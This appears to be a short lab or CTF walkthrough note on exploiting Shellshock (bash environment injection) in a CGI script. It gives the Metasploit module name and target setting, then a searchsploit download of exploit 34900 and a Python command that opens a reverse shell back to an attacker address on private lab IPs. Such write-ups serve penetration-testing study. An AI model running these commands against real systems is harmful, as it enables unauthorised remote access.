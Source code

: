 Metasploit module **multi/http/apache_mod_cgi_bash_env_exec**:
```msfconsole
set TARGETURI http://192.168.226.87/cgi-bin/test/test.cgi
```

**Non-metasploit solution**
Download exploit:
```bash
searchsploit -m 34900
```
Run exploit:
```bash
python2 34900.py payload=reverse lhost=192.168.45.160 lport=7777 rhost=192.168.226.87 pages=/cgi-bin/test/test.cgi
```
Result:
![[Pasted image 20240421115512.png]]